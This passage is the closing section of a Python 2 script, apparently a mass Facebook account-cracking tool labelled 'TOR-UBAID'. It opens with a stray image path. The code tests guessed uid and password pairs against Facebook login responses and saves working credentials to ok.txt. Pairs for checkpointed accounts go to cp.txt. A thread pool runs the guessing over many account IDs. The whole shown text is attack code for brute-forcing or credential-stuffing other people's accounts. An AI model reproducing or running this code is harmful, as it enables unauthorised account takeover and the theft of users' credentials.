 															if "access_token" in data.text and "EAAA" in data.text:
																print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass7+"\033[0;97m")
																ok = open("ok.txt", "a")
																ok.write(uid+"|"+pass7+"\n")
																ok.close()
																oks.append(uid+pass7)
															else:
																if "www.facebook.com" in data.json()['error_msg']:
																	print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass7+"\033[0;97m")
																	cp = open("cp.txt", "a")
																	cp.write(uid+"|"+pass7+"\n")
																	cp.close()
																	cps.append(uid+pass7)
										
										
		except:
			pass
	p = ThreadPool()
	p.map(main, id)
	print("")
	linex()
	print("")
	print("\033[92;1m THE PROCESS HAS BEEN COMPLETED")
	print("\033[93;1m TOTAL \033[92;1mOK\033[93;1m/\033[91;1mCP: "+str(len(oks))+"/"+str(len(cps)))
	print("")
	linex()
	print("")
	raw_input("\033[93;1m PRESS ENTER TO BACK ")
	menu()
    
if __name__ == '__main__':
	main()
